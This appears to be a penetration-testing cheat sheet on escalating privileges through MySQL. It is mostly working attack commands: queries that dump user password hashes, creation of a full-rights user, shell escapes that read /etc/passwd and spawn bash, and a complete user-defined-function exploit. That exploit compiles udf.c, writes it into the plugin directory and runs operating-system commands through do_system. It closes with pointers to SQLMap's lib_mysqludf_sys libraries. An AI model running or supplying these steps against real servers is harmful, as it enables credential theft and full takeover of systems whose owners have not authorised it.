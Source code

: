 ### Privilege Escalation

Current access level:
```
mysql>select user();
mysql>select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user where user='OUTPUT OF select user()';
```

Access passwords:
```
mysql> use mysql
mysql> select user,password from user;
```

Create new user and grant permissions:
```
mysql> create user test identified by 'test';
mysql> grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;
```

Break into shell:
```
mysql> \! cat /etc/passwd
mysql> \! bash
```

```s
show variables like "secure_file_priv"; # if empty can run UDF exploits
select @@plugin_dir;
```
- <https://www.exploit-db.com/exploits/1518>
- `gcc -g -c udf.c`
- `gcc -g -shared -Wl,-soname,udf.so -o udf.so udf.o -lc`
- Converting the udf.so to a hexadecimal string, removing whitespaces and retrieving the output in a single line with a "​0x​" in the beginning of the payload string.
  - `od -An -vtx1 udf.so | tr -d '\040\011\012\015' > udf_output`
  - `sed 's/.*7f454c460201010/0x&/' udf_output > udf`
- `SELECT ​<CONTENT OF THE udf file>​ INTO DUMPFILE '/usr/lib/mysql/plugin/udf.so';`
- `create function do_system returns integer soname 'udf.so';`
- `select do_system('id > /tmp/out; chmod 777 /tmp/out');`
- `select LOAD_FILE('/tmp/out');`

### MySQL root to system root

- [MySQL Root to System Root with lib_mysqludf_sys for Windows and Linux](https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/)

Take lib from SQLMap and dump it into the server:

```
udf/mysql/linux/32/lib_mysqludf_sys.so
udf/mysql/linux/64/lib_mysqludf_sys.so
udf/mysql/windows/32/lib_mysqludf_sys.dll
udf/mysql/windows/64/lib_mysqludf_sys.dll
```
